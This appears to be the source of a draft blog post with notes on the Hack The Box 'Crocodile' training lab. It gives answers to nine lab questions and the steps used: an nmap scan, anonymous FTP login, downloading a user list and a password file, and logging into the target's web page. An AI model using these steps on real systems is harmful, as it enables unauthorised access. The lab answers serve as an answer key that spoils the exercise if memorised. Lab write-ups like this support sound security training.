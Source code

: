 ```yaml
---
layout: ../../layouts/BlogPost.astro
title: "[Hack The Box] [Starting Point] [Tier 1] Crocodile"
uuid: e1267e42-2f3c-11ed-9e81-c2af19d2d6e3
version: 87
created: Thu, 12 Sep 2022 06:10:03 GMT
tags: [ "type/resource", "areas/pentest", "status/draft" ]
---
```


**TASK 1**

**What nmap scanning switch employs the use of default scripts during a scan?** -sC

**TASK 2**

**What service version is found to be running on port 21?** vsftpd 3.0.3

**TASK 3**

**What FTP code is returned to us for the "Anonymous FTP login allowed" message?**230

**TASK 4**

**What command can we use to download the files we find on the FTP server?** get

**TASK 5**

**What is one of the higher-privilege sounding usernames in the list we retrieved?** admin

**TASK 6**

**What version of Apache HTTP Server is running on the target host?** 2.4.41

**TASK 7**

**What is the name of a handy web site analysis plug-in we can install in our browser?** Wappalyzer

**TASK 8**

**What switch can we use with gobuster to specify we are looking for specific filetypes?** -x

**TASK 9**

**What file have we found that can provide us a foothold on the target?** login.php

**SUBMIT FLAG**

Step:

ftp $ip

>anonymous

>get allowed.userlist

>get allowed.userlist.passwd

>exit

cat allowed.userlist

cat allowed.userlist.passwd

http://$ip/login.php

---

Note:

```
$> nmap -sC -sV $ip
Nmap scan report for 10.129.25.81
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.33
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix
```